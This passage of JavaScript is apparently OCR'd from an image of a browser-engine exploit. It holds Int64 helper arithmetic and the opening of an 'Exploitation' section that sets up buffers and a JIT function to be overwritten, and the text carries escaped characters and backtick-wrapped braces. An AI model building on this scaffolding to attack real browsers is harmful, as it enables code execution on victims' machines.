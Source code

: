 ```
    this.assignAdd = operation(function add(a, b) `{`
        var carry = 0;
        for (var i = 0; i &lt; 8; i++) `{`
            var cur = a.byteAt(i) + b.byteAt(i) + carry;
            carry = cur &gt; 0xff | 0;
            bytes[i] = cur;
        `}`
        return this;
    `}`, 2);

    // this = a - b
    this.assignSub = operation(function sub(a, b) `{`
        var carry = 0;
        for (var i = 0; i &lt; 8; i++) `{`
            var cur = a.byteAt(i) - b.byteAt(i) - carry;
            carry = cur &lt; 0 | 0;
            bytes[i] = cur;
        `}`
        return this;
    `}`, 2);
`}`

// Constructs a new Int64 instance with the same bit representation as the provided double.
Int64.fromDouble = function(d) `{`
    var bytes = Struct.pack(Struct.float64, d);
    return new Int64(bytes);
`}`;

// Convenience functions. These allocate a new Int64 to hold the result.

// Return -n (two's complement)
function Neg(n) `{`
    return (new Int64()).assignNeg(n);
`}`

// Return a + b
function Add(a, b) `{`
    return (new Int64()).assignAdd(a, b);
`}`

// Return a - b
function Sub(a, b) `{`
    return (new Int64()).assignSub(a, b);
`}`

// Some commonly used numbers.
Int64.Zero = new Int64(0);
Int64.One = new Int64(1);

// Exploitation

let bufs = [];
let objs = [];

// 我们要写的jit函数
function func_to_overwrite() `{`
    let sum = 0;
    for (let i = 0;i &lt; 0x100; i++) `{`
        sum += i;
    `}`
    return sum;
`}`

```